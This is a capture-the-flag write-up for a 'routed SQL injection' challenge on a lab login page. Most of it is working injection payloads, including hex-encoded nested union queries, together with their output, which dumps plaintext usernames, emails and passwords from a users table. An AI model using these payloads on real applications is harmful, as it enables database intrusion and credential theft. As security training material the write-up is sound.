

Here we got this paper [routed SQL injection](https://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html), which talks about this vulnerability.

In a manner way, the result from the first query is going to the second query, and there we can achieve sql injection that will be displayed on the page.

So, the first query we tries is:
```sql
' union select 'a' -- 
```
And we get:
```
[+] Requested login: ' union select 'a' -- <br>
[+] Found ID: <br>
[+] Email: <br>
```

Okay, let's try something else, let's try give this `' or 1=1 -- ` but after hex, which gives us: `0x27206f7220313d31202d2d20`

So, the query is:
```sql
' union select 0x27206f7220313d31202d2d20 -- 
```
And we get back:
```
[+] Requested login: ' union select 0x27206f7220313d31202d2d20 -- <br>
[+] Found ID: 3<br>
[+] Email: admin@sqli_me.com<br>
```

Alright, now let's try exfiltrate the data, I guess there is column which is called `password`, and also of course `email`, `id`, `login`.

So this will be our query:
```sql
' union select concat(id,'~',login,'~',email,'~',password) as id,null from users limit 0,1 -- 
```

```sql
' union select 0x2720756e696f6e2073656c65637420636f6e6361742869642c277e272c6c6f67696e2c277e272c656d61696c2c277e272c70617373776f7264292061732069642c6e756c6c2066726f6d207573657273206c696d697420302c31202d2d20 -- 
```

Which gives us:
```
[+] Requested login: ' union select 0x2720756e696f6e2073656c65637420636f6e6361742869642c277e272c6c6f67696e2c277e272c656d61696c2c277e272c70617373776f7264292061732069642c6e756c6c2066726f6d207573657273206c696d697420302c31202d2d20 -- <br>
[+] Found ID: 3~admin~admin@sqli_me.com~qs89QdAs9A<br>
[+] Email: <br>
```

We can exfiltrate the rest of the data:
```
3~admin~admin@sqli_me.com~qs89QdAs9A
1~jean~jean@sqli_me.com~superpass
2~michel~michel@sqli_me.com~mypass
```



**Flag:** **_`qs89QdAs9A`_**